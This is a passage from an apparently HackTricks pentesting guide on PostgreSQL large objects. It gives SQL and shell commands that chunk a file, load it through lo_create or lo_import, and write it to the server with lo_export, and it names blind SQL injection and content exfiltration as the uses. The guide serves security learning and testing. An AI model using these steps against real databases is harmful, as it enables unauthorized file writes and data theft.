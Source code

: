 {{#include ../../../banners/hacktricks-training.md}}

### PostgreSQL Large Objects

PostgreSQL offers a structure known as **large objects**, accessible via the `pg_largeobject` table, designed for storing large data types, such as images or PDF documents. This approach is advantageous over the `COPY TO` function as it enables the **exportation of data back to the file system**, ensuring an exact replica of the original file is maintained.

For **storing a complete file** within this table, an object must be created in the `pg_largeobject` table (identified by a LOID), followed by the insertion of data chunks, each 2KB in size, into this object. It is crucial that these chunks are exactly 2KB in size (with the possible exception of the last chunk) to ensure the exporting function performs correctly.

To **divide your binary data** into 2KB chunks, the following commands can be executed:

```bash
split -b 2048 your_file # Creates 2KB sized files
```

For encoding each file into Base64 or Hex, the commands below can be used:

```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```

**Important**: When automating this process, ensure to send chunks of 2KB of clear-text bytes. Hex encoded files will require 4KB of data per chunk due to doubling in size, while Base64 encoded files follow the formula `ceil(n / 3) * 4`.

The contents of the large objects can be viewed for debugging purposes using:

```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```

#### Using `lo_creat` & Base64

To store binary data, a LOID is first created:

```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```

In situations requiring precise control, such as exploiting a Blind SQL Injection, `lo_create` is preferred for specifying a fixed LOID.

Data chunks can then be inserted as follows:

```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```

To export and potentially delete the large object after use:

```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```

#### Using `lo_import` & Hex

The `lo_import` function can be utilized to create and specify a LOID for a large object:

```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```

Following object creation, data is inserted per page, ensuring each chunk does not exceed 2KB:

```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```

To complete the process, the data is exported and the large object is deleted:

```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```

### Limitations

It's noted that **large objects may have ACLs** (Access Control Lists), potentially restricting access even to objects created by your user. However, older objects with permissive ACLs may still be accessible for content exfiltration.

{{#include ../../../banners/hacktricks-training.md}}



